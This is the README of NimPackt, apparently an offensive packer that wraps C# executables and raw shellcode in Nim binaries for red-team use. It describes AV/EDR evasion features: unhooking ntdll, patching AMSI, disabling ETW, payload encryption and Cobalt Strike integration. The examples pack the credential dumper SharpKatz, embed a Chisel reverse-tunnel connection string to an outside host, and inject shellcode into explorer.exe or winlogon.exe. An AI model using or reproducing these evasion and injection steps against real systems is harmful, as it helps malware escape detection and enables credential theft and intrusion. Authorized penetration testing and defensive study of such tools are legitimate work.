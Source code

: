 ![NimPackt](assets/Nimpackt-Logo-Blacktext.png)

# A Nim-based packer for C# / .NET executables and raw shellcode

*By Cas van Cooten (@chvancooten)*

## Description

> ⚠ NimPackt is still under active development and will contain bugs/oversights/flaws. Though generated binaries should be OpSec-safe, please verify this yourself before deploying them in active engagements. Kthx.

NimPackt is a Nim-based packer for C# / .NET executables and raw shellcode. It automatically wraps these executables (along with its arguments) in a Nim binary that is compiled to Native C and as such harder to detect and reverse engineer. Currently, it has the following features.

- Unhooking User-mode APIs (`Ntdll`) using [ShellyCoat](https://github.com/slaeryan/AQUARMOURY/tree/master/Shellycoat)
- Disabling Event Tracing for Windows (ETW) (recommended for 'execute-assembly' method)
- Patching the Anti-Malware Scan Interface (AMSI) (recommended for 'execute-assembly' method)
- Payload encryption (AES-128 CTR) to prevent static analysis
- Obfuscating static strings used in the binary
- Supports cross-platform compilation (from both Linux and Windows)
- Supports both x64/x86 compilation (make sure to grab the right architecture for the ingested binary)
- Integrates with CobaltStrike for ezpz payload generation 😎

A great source for C#-based binaries for offensive tooling can be found [here](https://github.com/Flangvik/SharpCollection). It is highly recommended to compile the C# binaries yourself. Even though embedded binaries are encrypted, you should obfuscate sensitive binaries (such as Mimikatz) to lower the risk of detection.

If you want to go all-out on OpSec, you could re-pack the Nim binary using a tool like [PEzor](https://github.com/phra/PEzor) to re-pack the binary into position-independent shellcode and launch it from memory using CobaltStrike, though this is a bit beyond the purpose of NimPackt 😙

## Installation

On **Linux**, simply install the required packages and use the Nimble package installer to install the required packages and Python libraries.

```
sudo apt install -y python3 mingw-w64 nim
pip3 install pycryptodome argparse
nimble install winim nimcrypto
```

On **Windows**, execute the Nim installer from [here](https://nim-lang.org/install_windows.html). Make sure to install `mingw` and set the path values correctly using the provided `finish.exe` utility. If you don't have Python3 install that, then install the required packages as follows.

```
nimble install winim nimcrypto
pip3 install pycryptodome argparse
```

### CobaltStrike Plugin 

To install the CobaltStrike plugin, select `Cobalt Strike` -> `Script Manager` from the menu bar, and select `Load`. Make sure to load the `.cna` file from it's original location, otherwise it won't be able to find the NimPackt script files!

## Usage

```
usage: NimPackt.py [-h] -e EXECUTIONMODE -i INPUTFILE [-a [ARGUMENTS]] [-r] [-t INJECTTARGET] [-E] [-32] [-H] [-nu] [-na] [-ne] [-v] [-V]

required arguments:
  -e EXECUTIONMODE, --executionmode EXECUTIONMODE
                        Execution mode of the packer. Supports "execute-assembly" or "shinject"
  -i INPUTFILE, --inputfile INPUTFILE
                        C# .NET binary executable (.exe) or shellcode (.bin) to wrap

execute-assembly arguments:
  -a [ARGUMENTS], --arguments [ARGUMENTS]
                        Arguments to "bake into" the wrapped binary, or "PASSTHRU" to accept run-time arguments (default)

shinject arguments:
  -r, --remote          Inject shellcode into remote process (default false)
  -t INJECTTARGET, --target INJECTTARGET
                        Remote thread targeted for remote process injection (default "explorer.exe", implies -r)
  -E, --existing        Remote inject into existing process rather than a newly spawned one (default false, implies -r) (WARNING: VOLATILE)

other arguments:
  -32, --32bit          Compile in 32-bit mode
  -H, --hideapp         Hide the app frontend (console output) by compiling it in GUI mode
  -nu, --nounhook       Do NOT unhook user-mode API hooks
  -na, --nopatchamsi    Do NOT patch (disable) the Anti-Malware Scan Interface (AMSI) (recommended for shellcode)
  -ne, --nodisableetw   Do NOT disable Event Tracing for Windows (ETW) (recommended for shellcode)
  -v, --verbose         Print debug messages of the wrapped binary at runtime
  -V, --version         show program's version number and exit
```

**Examples:**

```bash
# Pack SharpKatz to accept commands at runtime, patching hooks, AMSI, and ETW while printing verbose messages on runtime
python3 ./NimPackt.py -e execute-assembly -i bins/SharpKatz-x64.exe -v

# Pack SharpChisel with a built-in ChiselChief connection string, do not patch AMSI or disable ETW, hide the application window on runtime
python3 NimPackt.py -na -ne -H -e execute-assembly -i bins/SharpChisel.exe -a 'client --auth nimpackt.demo_A:718nubCpwiuLUW --keepalive 25s --max-retry-interval 25s https://chisel.azurewebsites.net R:10073:socks'

# Pack raw shellcode to execute in the local thread without patching AMSI or ETW (generally not needed for shellcode) and hiding the Nim binary window
# Shellcode generated with 'msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o /tmp/calc.bin'
python3 NimPackt.py -i calc.bin -e shinject -H -na -ne

# Pack raw shellcode to execute in a newly spawned Explorer thread (default), enabling verbose log messages in the compiled Nim binary
python3 NimPackt.py -i calc.bin -e shinject -na -ne -r -v

# Pack raw shellcode to execute in the existing Winlogon process (first PID with name 'winlogon.exe')
python3 NimPackt.py -i calc.bin -e shinject -na -ne -r -E -t "winlogon.exe"
```

Binaries are stored in the `output` subfolder of your installation directory.

## Known issues

- The `-H` flag doesn't seem to properly hide the output of the executed assembly when `execute-assembly` mode is used. This probably relates to C# compiling options, need to investigate this further.
- Shellcode doesn't seem to return correctly over all injection methods. This is generally not a problem for local injection (since the Nim thread can die anyway), but for remote injections it will in most instances cause the process to crash once the shellcode returns. For a sacrificial process this might be okay, but for existing processes (-E) this is not acceptable. Need to look into making shellcode properly return.

## Wishlist

- Provide option to evade sandbox fingerprinting (e.g. by performing calculations for 10-30s)
- Provide option to pack as dll library
- Stabilize shellcode execution
- Fix "hard parsing" of arguments passed as embedded arguments (e.g. `-a '-arg=value'` not being accepted by `argparse`)